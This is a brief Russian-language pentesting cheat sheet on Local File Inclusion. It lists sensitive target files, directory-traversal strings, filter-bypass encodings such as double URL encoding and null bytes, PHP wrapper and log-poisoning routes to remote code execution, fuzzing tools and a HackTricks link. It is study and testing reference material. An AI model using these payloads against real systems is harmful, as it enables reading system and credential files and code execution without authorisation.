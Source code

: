 # 🐚 LFI Tricks (Local File Inclusion)

## 🔎 Основные полезные пути:
- `/etc/passwd`
- `/proc/self/environ`
- `/var/log/apache2/access.log`
- `../../../../../../etc/passwd`

## 🔁 Обход фильтров:
- Двойной URL-энкодинг: `%252e%252e%252f`
- Null byte (для старых PHP): `%00`

## 📂 Windows:
- `C:\boot.ini`
- `C:\Windows\win.ini`

## 🔧 Полезные техники:
- LFI → RCE через `access.log`
- LFI + php://input
- LFI + wrapper (zip://, data://)

## 🛠 Инструменты:
- `ffuf`, `wfuzz` — для перебора
- `burp`, `LFI Suite`

## 🔗 Ссылки:
- https://book.hacktricks.xyz/pentesting-web/file-inclusion

